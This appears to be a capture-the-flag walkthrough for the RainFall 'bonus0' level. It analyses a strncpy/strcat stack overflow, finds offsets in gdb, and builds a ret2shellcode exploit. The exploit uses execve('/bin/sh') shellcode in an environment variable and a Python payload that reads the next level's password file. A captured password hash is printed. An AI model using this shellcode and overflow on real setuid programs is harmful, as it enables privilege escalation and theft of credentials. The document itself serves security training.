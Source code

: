 # Bonus 0

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference as mentioned in the comments of the source code. I assume this is due to us using the wrong type for the buffers in the `pp` function. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

unsigned short *a = 32;

void p(char *str, char *str2)
{
    char buf[4096];

    puts(str2);
    read(0, buf, 4096);
    *strchr(buf, '\n') = 0;
    strncpy(str, buf, 20);
}

// sub is incorrect by 4 bytes and ebx is not used
void pp(char *str)
{
    char buf[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf, " - ");

    strcpy(str, buf2);

    str[strlen(str)] = *a;

    strcat(str, buf);
}

int main()
{
    char buf[42];

    pp(buf);
    puts(buf);

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `read` function, the null terminator is then added with `strchr` and the string is copied to the `buf` buffer using `strncpy` with a size of 20. However, the `strncpy` function doesn't add a null terminator if the string is longer than the size provided. Therefore, the `str` buffer will not be null terminated.

This will result in `strcpy` copying the `buf2` buffer to the `str` buffer, but it will not stop at the null terminator, since there is none, tt will continue to copy the `buf` buffer to the `str` buffer. Then `strcat` will append the `buf` buffer to the `str` buffer which will allow us to overflow the buffer and overwrite the return address of the `main` function.


Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *main+38 # Breaking before leave
Breakpoint 1 at 0x80485ca

(gdb) r # Run the program
Starting program: /home/user/bonus0/bonus0
 -

 -



Breakpoint 1, 0x080485ca in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff738 - 0xbffff6f0 = 48 (72 in decimal)
```

Furthermore, we can see that our buffer is located at `0x16(%esp),%eax`. Since there is 72 bytes for the stack, our buffer will therefore requiere 50 bytes (72 - 22) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 54 bytes (50 + 4).

Anything written beyond those 54 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Since we now know that 54 bytes are required, let's see how many we can write:
```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

We're obviously limited to 20 bytes per buffer, but as we can see, the 20 bytes of B's are written after the 20 bytes of A's. There is also a space added between the two buffer and finally another 20 bytes of A's. So it's possible to write 61 bytes in total which is more than enough to overwrite the return address of the `main` function.

Since the bytes of `buf` are written after the bytes of `buf2`, we have to be slightly tactical to figure out where we need to write our address:
```
20 bytes of buf2 + 19 bytes of buf + 1 byte of space + 19 bytes of buf

54 - 59 = -5 bytes
```

So we need to write our address 5 bytes before the end of the `buf` buffer. Such as:
```
buf2 = "AAAAAAAAAAAAAAAAAAAA"
buf = "BBBBBBBBBBBBBB" + Address (4 bytes) + "B"
20 + 19 + 1 + 14 = 54 bytes
```

Since a ret2libc would requiere 12 bytes (4 bytes for the address of `system`, 4 bytes for the address of `exit` and 4 bytes for the address of "/bin/sh"), we're just going to use a ret2shellcode.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 20 bytes
arg2 = padding of 14 bytes + address of the shellcode in the env + padding of 1 byte

arg1 = A * 20
arg2 = B * 14 + "\xbf\xff\xf8\x48" + B * 1
```

Let's run it:
```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 14 + "\x10\xf9\xff\xbf" + "B"'; echo 'cat /home/user/bonus1/.pass') | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBH���A BBBBBBBBBBBBBBH���A
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

We are now bonus1! Let's move on to the next level.